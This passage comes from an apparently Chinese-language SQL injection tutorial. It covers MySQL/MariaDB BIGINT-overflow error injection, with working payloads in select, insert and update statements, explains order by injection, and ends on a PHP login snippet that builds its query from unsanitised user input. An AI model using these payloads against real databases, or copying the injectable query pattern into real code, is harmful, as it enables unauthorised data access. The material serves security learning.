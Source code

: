 ```sql
1 row in set, 1 warning (0.001 sec)
```

因此,只要我们触发溢出错误即可,但是这种方式只适用于较低版本的mysql
我的MariaDB做了相关保护:

```sql
MariaDB [(none)]> select !(select*from(select user())x) - ~0;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '!(select #) - ~0'
```

期望的内容被 '#' 代替了.同理,在insert update语句中也可构造溢出:

```sql
insert into users (id, username, password) values (2, '' or !(select*from(select user())x)-~0 or '', 'Eyre');

update users set password='Peter' or !(select*from(select user())x)-~0 or '' where id=4;
```

参考文章:
[BIGINT](http://www.vuln.cn/6818)
[Blind Inject](https://www.cnblogs.com/lcamry/p/5763129.html)

 2. order by注入
    - 盲注
    - 触发报错

&emsp;&emsp;其实原理与上面类似, 首先熟悉一下order by, 他是mysql中对查询数据进行排序的方法,使用示例:

```sql
select * from 表名 order by 列名(或者数字) asc；升序(默认升序)
select * from 表名 order by 列名(或者数字) desc；降序
```

&emsp;&emsp;这里的重点在于order by后既可以填列名或者是一个数字。举个例子： id是user表的第一列的列名，那么如果想根据id来排序，有两种写:

```sql
select * from user order by id;
selecr * from user order by 1;
```

###### Union盲注
```php
$sql = 'select * from admin where username='".$username."'';
$result = mysql_query($sql);
$row = mysql_fetch_array($result);
if(isset($row)&&row['username']!="admin"){
	$hit="username error!";
}else{
	if ($row['password'] === $password){
		$hit="";
	}else{
		$hit="password error!";
	}
}
```
payload
